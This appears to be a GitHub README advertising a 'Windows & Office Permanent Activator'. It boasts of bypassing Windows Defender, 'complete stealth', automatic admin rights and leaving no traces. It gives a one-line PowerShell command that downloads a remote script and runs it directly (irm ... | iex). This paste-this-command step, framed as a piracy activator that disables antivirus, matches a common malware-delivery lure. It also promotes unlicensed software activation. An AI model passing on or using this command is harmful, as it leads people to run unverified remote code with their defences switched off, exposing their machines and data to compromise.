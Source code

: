 # 🚀 Windows & Office Permanent Activator

> ### ⚡ **ONE COMMAND** - Permanent Activation | Defender Bypass | All Versions Supported

---

## 🎯 **WHAT THIS SCRIPT DOES**

🛡️ **BYPasses Windows Defender** - Complete stealth mode  
✅ **Activates Windows PERMANENTLY** - Lifetime activation  
📊 **Activates Office PERMANENTLY** - All Office versions  
⚡ **Automatic Admin Rights** - No manual elevation needed  
🔥 **All Windows Versions** - 8, 10, 11, Server editions  
🎭 **Complete Stealth** - No traces left behind  

---

## 🚨 **IMMEDIATE ACTIVATION**

### **Method 1: One-Line Command** 🎯
```powershell
irm https://raw.githubusercontent.com/Ano-n-ymous/windows-activator-script/main/winactivator.ps1 | iex
